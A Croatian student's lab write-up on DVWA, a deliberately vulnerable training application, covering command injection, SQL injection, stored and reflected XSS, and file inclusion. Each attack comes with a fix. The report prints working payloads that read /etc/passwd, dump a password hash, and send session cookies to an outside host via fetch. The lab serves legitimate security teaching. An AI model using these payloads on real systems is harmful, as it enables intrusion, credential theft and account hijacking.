

# Treća laboratorijska vježba: Ranjivosti web aplikacija

Za potrebe ove laboratorijske vježbe, zadan je virtualan stroj za proučavanje ranjivosti web-aplikacija. Za nesmetan rad, na virtualnom stroju nalazi se DVWA (Damn Vulnerable Web Application) čija je svrha pomoći nam bolje razumjeti procese iskorištavanja ranjivosti i osiguravanja web aplikacija.

---

## 1) Izvođenje naredbi (Command Injection)

Ranjivost izvođenja naredbi iskorištavamo u kontekstu forme za ping IP adrese. Korisnika se traži da unese IP adresu u textbox, pa kada se forma preda poslužitelju ono slaže shell naredbu za ping koja se pokreće odmah, a krajnji ispis se vraća korisniku.

Na poslužitelju vjerojatno postoji implementacija slična ovoj:

```java
command = "ping -c 4 " + request.ip;
return sh.execute(command);
```

U takvoj implementaciji napadač može ostvariti potpunu kontrolu nad sadržajem naredbe. Moguće je dodati *pipe* koji nakon pinga preusmjerava izvršavanje po želji napadača:

```java
request.ip = "1 | echo srs";  // napadač ubacuje echo srs
```

```sh
$ ping -c 4 1 | echo srs
srs
```

Primijetite da ping naredba ne mora biti valjana kako bi se napadačeva naredba izvršila.

Maliciozan napadač ovim putem može prevariti poslužitelja i dobiti sadržaj datoteke `/etc/passwd` na poslužitelju. Priložen ispis je s našeg virtualnog stroja:

```java
request.ip = "1 | cat /etc/passwd";
```

```sh
$ ping -c 4 1 | cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

U ovom konkretnom primjeru, ranjivost se može zakrpati strogom provjerom da je unesena IP adresa zaista valjana IP adresa. Provjeravanje valjanosti može se implementirati provjerom oblika - očekuju se četiri broja između 0 i 255 odvojena točkom.

```java
request.ip = "1 | cat /etc/passwd";

if (!isValidIP(request.ip)) {
    // Spriječeno izvođenje napadačeve naredbe
    return error("Invalid IP address");
}

command = "ping -c 4 " + request.ip;
return sh.execute(command);
```

Ovakav način zakrpe koristi *white-listing* pristup. Primijetite da je jako teško ranjivost zakrpati *black-listing* pristupom na način da možemo biti uvjereni u sigurnost sustava.

---

## 2) Napadi SQL umetanjem (SQL Injection)

Ranjivost SQL umetanjem iskorištavamo u kontekstu forme za prikaz podataka iz baze. Korisnika se traži da unese ID korisnika za koji će poslužitelj dohvatiti njegovo ime i prezime.

Na poslužitelju vjerojatno postoji implementacija slična ovoj:

```java
String sql = "SELECT first_name, last_name FROM users WHERE user_id = '" + request.id + "';";
return db.execute(sql);
```

U ovakvoj implementaciji napadač može izvršiti proizvoljan SQL upit na poslužitelju tako da u ulazu zatvori string oko parametra, dovrši upit proizvoljno pomoću `UNION SELECT...` i odbaci ostatak pomoću komentara:

```java
request.id = "a' UNION SELECT 'text1', 'pwned' FROM users WHERE user_id = '4';-- comment";
```

```
ID: a' UNION SELECT 'text1', 'pwned' FROM users WHERE user_id = '4';-- comment
First name: text1
Surname: pwned
```

Primijetite da prvi, namjeravani upit ne mora nužno vratiti ikakve retke kako bi se napadačev upit izvršio.

Maliciozan napadač ovim putem može prevariti poslužitelja i dohvatiti sažetak lozinke svih korisnika na poslužitelju. Priložen ispis je s našeg virtualnog stroja za korisnika Pablo Picasso:

```java
// napomena: umjesto ID-a moguće je i provjeravati ime i prezime
request.id = "a' UNION SELECT password, 'pwned' FROM users WHERE user_id = '4';-- comment";
```

```
ID: a' UNION SELECT password, 'pwned' FROM users WHERE user_id = '4';-- comment
First name: 0d107d09f5bbe40cade3de5c71e9e9b7
Surname: pwned
```

Ukoliko je algoritam za sažimanje lozinke nesiguran, napadač može i dohvatiti obični tekst lozinke. Na našem virtualnom stroju koristi se nesiguran MD5 sažetak, koji se pomoću web stranice [crackstation.net](https://crackstation.net/) može brzo obrnuti:

```
Hash: 0d107d09f5bbe40cade3de5c71e9e9b7
Type: MD5
Result: letmein
```

Sve ranjivosti SQL umetanja mogu se zakrpati parametrizacijom upita. Takvom upitu se korisnički unos predaje u obliku varijabli umjesto direktnog slaganja stringa. Time se potpuno eliminira mogućnost tumačenja unesenih podataka kao SQL naredbe:

```java
String sql = "SELECT first_name, last_name FROM users WHERE user_id = $1;";
return db.execute(sql, [request.id]);
```

---

## 3) XSS (Cross Site Scripting)

Ranjivost XSS iskorištava se u kontekstu forme za unos podataka od korisnika bez pretjerane validacije. Korisnika se traži da unese ime i poruku koja se lijepi na zid vidljiv svim ostalim korisnicima.

Na poslužitelju vjerojatno postoji implementacija slična ovoj:

```java
guestbook.add(request.name, request.message); // nema validacije
return guestbook.getAll();
```

U ovakvoj implementaciji napadač može dodati proizvoljan HTML u sadržaj poruke, i time prikazati proizvoljan HTML svim ostalim korisnicima. Među ostalim, moguće je ubaciti i JavaScript kod koji se izvršava na klijentu ostalih korisnika:

```java
request.name = "hacker";
request.message = "pwned <script>alert('XSS');</script>";
```

```
XSS
```

Primijetite da polje za unos ima ograničenje broja znakova pa je teško ubaciti kompliciraniji JavaScript kod, ali je lako zaobići to ograničenje tako što se atribut `maxlength` polja za unos poruke postavi na znatno veću vrijednost.

Maliciozan napadač ovim putem može izvršiti maliciozan JavaScript kod na pregledniku bilo kojeg korisnika koji pregleda zloupotrijebljenu poruku. Time se može pročitati *cookie* napadnutog korisnika.

```java
request.name = "hacker";
request.message = "pwned <script>alert(document.cookie.split('; ').filter(i => i.startsWith('PHPSESSID='))[0]);</script>";
```

```
PHPSESSID=898jvgcktl8opg08ep8c0dh3q7;
```

Cookie se može i ukrasti tako da ga maliciozan JavaScript kod dojavi udaljenom poslužitelju koji je pod vlasništvom napadača. To omogućuje napadaču pristup ukradenom korisničkom računu, jer ukradeni cookie može dodati ručno u vlastiti preglednik:

```java
request.name = "hacker";
request.message = "pwned <script>fetch('http://public.tel.fer.hr/srs?cookie=' + document.cookie);</script>";
```

```
GET http://public.tel.fer.hr/srs?cookie=PHPSESSID=898jvgcktl8opg08ep8c0dh3q7; security=low
```

Ovakav XSS napad naziva se *Stored* jer se maliciozan JavaScript kod sprema u bazu podataka poslužitelja pa se može izvesti u bilo kojem trenutku. Naprotiv, *Reflected* XSS napad ne dolazi direktno od poslužitelja već se korisnika prevari nekom od tehnika socijalnog inženjeringa kako bi pokrenuo maliciozan JavaScript.

Na poslužitelju vjerojatno postoji implementacija slična ovoj:

```java
return "Hello " + request.name;
```

U konkretnom primjeru za Reflected XSS korisnika se pita da unese svoje ime, a poslužitelj vraća poruku koja sadrži to ime. To ime je moguće predati preko GET parametra URL-a, te na taj način lakovjernog korisnika možemo na neki način prevariti da pokrene URL u kojem se u GET parametru za ime nalazi maliciozan JavaScript kod:

```
http://192.168.56.101/vulnerabilities/xss_r/?name=pwned<script>fetch('http://public.tel.fer.hr/srs?cookie='%2Bdocument.cookie);</script>
```

```
GET http://public.tel.fer.hr/srs?cookie=PHPSESSID=898jvgcktl8opg08ep8c0dh3q7; security=low
```

Bilo kakav XSS napad može se zakrpati sanitizacijom ulaza funkcijom koja pretvara specijalne znakove u odgovarajuće HTML entitete. Na primjer, ukoliko korisnik unese `<script>alert('XSS');</script>` u polje za unos, umjesto da se JavaScript kod pokrene on će biti se pretvoriti u `&lt;script&gt;alert('XSS');&lt;/script&gt;` i tako prikazati kao običan tekst.

```java
// Stored XSS fix
guestbook.add(htmlspecialchars(request.name), htmlspecialchars(request.message));
return guestbook.getAll();
```

```java
// Reflected XSS fix
return "Hello " + htmlspecialchars(request.name);
```

---

## 4) Inkluzija datoteka (File Inclusion)

Ranjivost inkluzije datoteka iskorištavamo u kontekstu forme u kojoj je korisniku omogućeno biranje između raznih stranica koje direktno pokazuju na datoteku na datotečnom sustavu poslužitelja.

Na poslužitelju vjerojatno postoji implementacija slična ovoj:

```java
return fileio.read(request.page);
```

Poslužitelju se može predati direktna putanja do datoteke što ustvari ima sposobnost dohvatiti bilo koju čitljivu datoteku na datotečnom sustavu poslužitelja.

Maliciozan napadač ovim putem može prevariti poslužitelja i dobiti sadržaj datoteke `/etc/passwd` na poslužitelju. Priložen ispis je s našeg virtualnog stroja:

```java
// http://192.168.56.101/vulnerabilities/fi/?page=/etc/passwd
request.page = "/etc/passwd";
```

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false 
```



Sve ranjivosti inkluzije datoteka mogu se zakrpati strogom provjerom da je unesena stranica zaista jedna od valjanih stranica:

```java
request.page = "/etc/passwd";

if (!["file1.php", "file2.php"].contains(request.page)) {
    // Spriječen dohvat nedozvoljene datoteke
    return error("Invalid page");
}

return fileio.read(request.page);
```

Ovakav način zakrpe koristi *white-listing* pristup. Primijetite da je jako teško ranjivost zakrpati *black-listing* pristupom na način da možemo biti uvjereni u sigurnost sustava.

---

*Dominik Matijaca 0036524568*
